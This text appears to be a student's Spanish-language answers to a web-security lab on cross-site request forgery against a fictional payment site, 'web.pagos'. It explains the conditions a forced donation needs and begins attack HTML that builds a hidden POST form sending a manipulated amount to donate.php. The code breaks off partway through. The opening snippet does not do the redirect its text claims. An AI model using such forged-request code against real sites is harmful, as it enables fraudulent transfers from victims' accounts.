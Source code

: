 La opción que he pensado sería de poner este script para que no se levanten sospechas y cuando el usario haga click en Show/Add Comments, le mandará automaticamente a donde tengamos la redirección o donde el script nos mande:

``` html
<script>
function showDonationRequest() {
  const donationRequest = document.getElementById("solicitudDonacion");
  donationRequest.style.display = "block"; // Make the donation request visible
}
</script>

```

## Apartado 5c
c) Pero 'web.pagos' sólo gestiona pagos y donaciones entre usuarios registrados, puesto que, evidentemente, le tiene que restar los 100€ a la cuenta de algún usuario para poder añadirlos a nuestra cuenta.

Explicad qué condición se tendrá que cumplir por que se efectúen las donaciones de los usuarios que visualicen el mensaje del apartado anterior o hagan click en el botón del apartado a).

**Sesión iniciada:** El usuario debe haber iniciado sesión en su cuenta de "web.pagos". Esto asegura que la plataforma pueda identificar al usuario que realiza la donación y debitar los 100€ de su cuenta.

**Fondos suficientes:** El usuario debe tener fondos suficientes en su cuenta para realizar la donación. La plataforma verificará si el saldo disponible del usuario es igual o superior a 100€ antes de procesar la donación.

**Destinatario válido:** El destinatario especificado en la solicitud de donación debe ser un usuario registrado y válido en la plataforma de "web.pagos". Esto garantiza que la donación se dirija correctamente a la cuenta del destinatario.

**Confirmación de la transacción:** Es posible que la plataforma requiera una confirmación adicional por parte del usuario antes de procesar la donación. Esto puede incluir una pantalla de confirmación donde el usuario debe revisar los detalles de la transacción antes de completarla.

## Apartado 5d
d) Si 'web.pagos' modifica la página 'donate.php' para que reciba los parámetros a través de POST, quedaría blindada contra este tipo de ataques? En caso negativo, preparad un mensaje que realice un ataque equivalente al de la apartado b) enviando los parámetros “amount” i “receiver” por POST.

Este código simula cómo un atacante podría manipular los parámetros de la solicitud de donación para enviar una donación fraudulenta y estaremos enviando los parámetros "amount" y receiver" por POST: 

``` html

<!DOCTYPE html>
<html lang="es">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Ataque simulado</title>
<script>
function simulateAttack() {
  // Aquí se crea el formulario
  var form = document.createElement("form");
  form.setAttribute("method", "post");
  form.setAttribute("action", "http://web.pagos/donate.php");

  // Se añaden los parámetros manipulados
  var amountInput = document.createElement("input");
  amountInput.setAttribute("type", "hidden");
  amountInput.setAttribute("name", "amount");
  amountInput.setAttribute("value", "1000000"); // Valor manipulado
```